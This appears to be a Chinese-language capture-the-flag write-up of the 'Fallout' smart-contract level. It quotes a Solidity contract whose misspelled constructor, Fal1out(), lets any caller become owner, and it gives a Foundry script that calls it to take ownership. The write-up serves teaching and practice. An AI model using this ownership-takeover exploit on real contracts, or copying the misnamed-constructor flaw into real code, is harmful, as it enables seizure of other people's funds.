

## Fallout

### 目标：

使自己拥有合约的所有权，让自己变为合约的`owner`

### 思路：

这道题只要获得合约的所有权即可通关，观察合约的源代码，只有一处可以达到`owner = msg.sender`，因此只需要成功调用`Fal1out()`函数即可使自己成为合约的owner，这道题的版本为`^0.6.0`，但是对于script脚本来说版本过低，所以写脚本时需要手动提升版本，利用interface可以忽略`import "openzeppelin-contracts-06/math/SafeMath.sol"`造成的影响。

### 源码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

### poc：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Script.sol";

interface ITarget{
    function Fal1out() external payable;
}

contract Attack is Script{
    ITarget public target = ITarget(0x33dFe4eDb76C8C432CfB7a79AdBF7b1a72391db0);
    function run() external{
        vm.startBroadcast();
        
        target.Fal1out{value:0.001 ether}();

        vm.stopBroadcast();
    }
}
```


